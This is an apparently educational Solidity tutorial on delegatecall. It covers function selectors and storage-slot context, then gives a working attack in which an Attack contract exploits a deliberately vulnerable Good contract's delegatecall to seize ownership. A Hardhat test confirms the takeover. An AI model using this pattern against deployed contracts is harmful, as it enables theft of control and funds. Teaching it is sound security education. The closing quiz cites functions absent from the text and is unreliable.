




# [Delegate Call](https://www.learnweb3.io/tracks/senior/delegate-call)

 

**.delegatecall()** is a method in Solidity used to call a function in a target contract from an original contract. However, unlike other methods, when the function is executed in the target contract using **.delegatecall()**, the context is passed from the original contract i.e. the code executes in the target contract, but variables get modified in the original contract.

## Wait, what?

The important thing to note when using .delegatecall() is that the context the original contract is passed to the target, and all state changes in the target contract reflect on the original contract's state and not on the target contract's state even though the function is being executed on the target contract.

> 🤔 What happens when the target contract is called from the original contract using the `delegatecall()` method?
>
> Answer: It executes the function using the context of the original contract

In Ethereum, a function can be represented as `4 + 32*N` bytes where 4 bytes are for the function selector and the `32*N` bytes are for function arguments.

- **Function Selector**: To get the function selector, we hash the function's name along with the type of its arguments without the empty space eg. for something like `putValue(uint value)`, you will hash `putValue(uint)` using `keccak-256` which is a hashing function used by Ethereum and then take its first 4 bytes. To understand keccak-256 and hashing better, I suggest you watch this [video](https://www.youtube.com/watch?v=rxZR3ITZlzE)

- **Function Argument**: Convert each argument into a hex string with a fixed length of 32 bytes and concatenate them.

> 🤔 How can a function in Ethereum be represented?
>
> Answer: 4 + 32*N where N is the number of arguments in the function

>  How do we construct a function selector?
>
> Answer: We hash the function's name along with the arguments without the empty space and then takes its first 4 bytes

> What is a function argument in context of delegatecall?
>
> Answer: Function argument is created when you convert each argument into a 32 bytes hex string and then concatenate them

We have two contracts Student.sol and Calculator.sol. We dont know the ABI of Calculator.sol but we know that their exists an add function which takes in two uint's and adds them up within the Calculator.sol

Lets see how we can use delegateCall to call this function from Student.sol

```sh
pragma solidity ^0.8.4;

contract Student {

    uint public mySum;
    address public studentAddress;
    
    function addTwoNumbers(address calculator, uint a, uint b) public returns (uint)  {
        (bool success, bytes memory result) = calculator.delegatecall(abi.encodeWithSignature("add(uint256,uint256)", a, b));
        require(success, "The call to calculator contract failed");
        return abi.decode(result, (uint));
    }
}
```

```sh
pragma solidity ^0.8.4;

contract Calculator {
    uint public result;
    address public user;
    
    function add(uint a, uint b) public returns (uint) {
        result = a + b;
        user = msg.sender;
        return result;
    }
}
```

 

>  What is a delegatecall method in solidity?
>
> Answer: A solidity method used to call a function in a target contract from original contract

## Problematic

Storage slots can have variables of different data types. What if the Student contract instead had values defined in this order?

```sh
contract Student {
    address public studentAddress;
    uint public mySum;
}
```

In this case, the `address` variable would actually end up becoming the value of `result`. You may be thinking how can an `address` data type contain the value of a `uint`? To answer that, you have to think a little lower-level. At the end of the day, all data types are just bytes. `address` and `uint` are both 32 byte data types, and so the `uint` value for `result` can be set in the `address public studentAddress` variable as they're both still 32 bytes of data.

## Actual Use Cases

`.delegatecall()` is heavily used within proxy (upgradeable) contracts. Since smart contracts are not upgradeable by default, the way to make them upgradeable is typically by having one storage contract which does not change, which contains an address for an implementation contract. If you wanted to update your contract code, you change the address of the implementation contract to something new. 

## Attack using delegatecall

- We will have three smart contracts Attack.sol, Good.sol and Helper.sol
- Hacker will be able to use Attack.sol to change the owner of Good.sol using .delegatecall()


## Build

```sh
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public helper;
    address public owner;
    uint public num;

    constructor(address _helper) {
        helper = _helper;
        owner = msg.sender;
    }

    function setNum( uint _num) public {
        helper.delegatecall(abi.encodeWithSignature("setNum(uint256)", _num));
    }
}
```

```sh
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Helper {
    uint public num;

    function setNum(uint _num) public {
        num = _num;
    }
}
```

```sh
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    address public helper;
    address public owner;
    uint public num;

    Good public good;

    constructor(Good _good) {
        good = Good(_good);
    }

    function setNum(uint _num) public {
        owner = msg.sender;
    }

    function attack() public {
        // This is the way you typecast an address to a uint
        good.setNum(uint(uint160(address(this))));
        good.setNum(1);
    }
}
```

Intresting point to note is the argument with which the `setNum` is initially called, its an address typecasted into a uint256, which is it's own address. After `setNum` function within the `Good.sol` contract recieves the address as a uint, it further does a `delegatecall` to the `Helper` contract because right now the `helper` variable is set to the address of the `Helper` contract.

Now the address of the `helper` contract has been overwritten by the address of `Attack.sol`. The next thing that gets executed in the attack function within `Attack.sol` is another setNum but with number 1. The number 1 plays no relevance here, and could've been set to anything.

Now when `setNum` gets called within `Good.sol` it will delegate the call to `Attack.sol` because the address of **helper contract has been overwritten**.

The setNum within `Attack.sol` gets executed **which sets the owner to msg.sender which in this case is Attack.sol itself because it was the original caller of the delegatecall and because owner is at Slot 1 of Attack.sol, the Slot 1 of Good.sol will be overwriten which is its owner.**

> Step 1:
> 
> _ Change address of Helper -> Attack
>
> Step 2:
>
> _ setNum at Good.sold -> delegate call to setNum at Attack (because the address of Helper has been overwritten)
> _ setNum within Attack sets the owner to msg.sender which in this case is Attack itself (at Slot 1)
>
> Boom the attacker was able to change the owner of Good.sol 👀 🔥

```sh
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Should change the owner of the Good contract", async function () {
    // Deploy the helper contract
    const helperContract = await ethers.getContractFactory("Helper");
    const _helperContract = await helperContract.deploy();
    await _helperContract.deployed();
    console.log("Helper Contract's Address:", _helperContract.address);

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy(_helperContract.address);
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets attack the good contract

    // Start the attack
    let tx = await _attackContract.attack();
    await tx.wait();

    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

## Prevention

Use stateless library contracts which means that the contracts to which you delegate the call should only be used for execution of logic and should not maintain state. This way, it is not possible for functions in the library to modify the state of the calling contract

> How to prevent attacks on contracts which are using delegatecall?
>
> Answer: Maintain the state in the original contract for your system

## References

> Whats going to happen when we call the setRollNumber function?

 

> Answer: user will be set to 10 in Student.sol

> What value should be returned if we call the greeting function?

 

> Anser: Empty string